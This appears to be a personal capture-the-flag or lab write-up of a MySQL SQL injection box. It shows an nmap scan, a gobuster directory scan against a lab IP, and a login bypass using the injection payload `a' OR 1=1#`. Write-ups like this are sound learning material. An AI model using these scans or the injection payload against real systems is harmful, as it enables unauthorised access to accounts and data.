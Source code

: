 # SQLi (mysql)

## Scan

```bash
nmap -sV -T5 10.129.210.87
```

Port 80 is exposed (an apache server!)

## gobuster

```bash
gobuster dir -u 10.129.210.87 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

(did not find any useful routes, but we have found out it is written in php, so easier to fo sql injection)

## SQL injection

successfully logged in using `a' OR 1=1#` (dont even need to know the username)
